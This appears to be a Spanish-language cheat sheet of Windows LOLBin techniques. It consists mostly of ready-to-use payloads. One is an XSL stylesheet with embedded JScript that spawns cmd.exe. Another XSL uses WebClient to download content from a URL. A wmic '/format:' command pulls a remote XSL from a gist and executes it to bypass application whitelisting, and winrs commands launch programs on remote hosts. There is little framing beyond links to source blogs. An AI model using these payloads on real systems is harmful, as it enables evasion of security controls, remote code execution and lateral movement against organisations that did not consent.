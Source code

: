 #  LOLBin
https://twitter.com/search?q=%23LOLBin

# Mostrar los procesos que se están ejecutando en Windows con WMIC
https://www.jesusninoc.com/2018/05/01/mostrar-los-procesos-que-se-estan-ejecutando-en-windows-con-wmic/

# XML 
https://www.w3schools.com/xml/simplexsl.xml

# XSL
https://www.w3schools.com/xml/simple.xsl

# XSL que ejecuta CMD
https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	]]> </ms:script>
</stylesheet>
```

# XSL que descarga
https://gist.githubusercontent.com/caseysmithrc/4932a527e326de68f3bd212913d02c78/raw/8dd9696e937a7e66972a2e95c0d65a83ec9e3d7c/dotnet.xsl
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
		
			
	var manifest = '<?xml version="1.0" encoding="UTF-16" standalone="yes"?><assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1"><assemblyIdentity name="System" version="4.0.0.0" publicKeyToken="B77A5C561934E089" /><clrClass clsid="{7D458845-B4B8-30CB-B2AD-FC4960FCDF81}" progid="System.Net.WebClient" threadingModel="Both" name="System.Net.WebClient" runtimeVersion="v4.0.30319" /></assembly>';
	
	try {
		var ax = new ActiveXObject("Microsoft.Windows.ActCtx");
		ax.ManifestText = manifest;
		
		var obj = ax.CreateObject("System.Net.WebClient");
		var webstuff = obj.DownloadString("http://www.example.com");
		var a = new ActiveXObject("WScript.Shell").Popup(webstuff);
		
	} catch(e) {
		WScript.Echo("Error: " + e.message);
	}
	]]> </ms:script>
</stylesheet>
```

# WMIC.EXE Whitelisting Bypass - Hacking with Style, Stylesheets
https://subt0x11.blogspot.com.es/2018/04/wmicexe-whitelisting-bypass-hacking.html

```CMD
wmic os get /format:”https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist”
```

# Hack With XSLT
https://evi1cg.me/archives/Hack_With_XSLT.html

# WInRm Via Use winrs .exe in Launch Command Remotely
```CMD
#EnableAccess  
winrm.exe quickconfig
winrs -r:http://#SystemName:5985 -u:Domain\#Username "calc.exe"
```
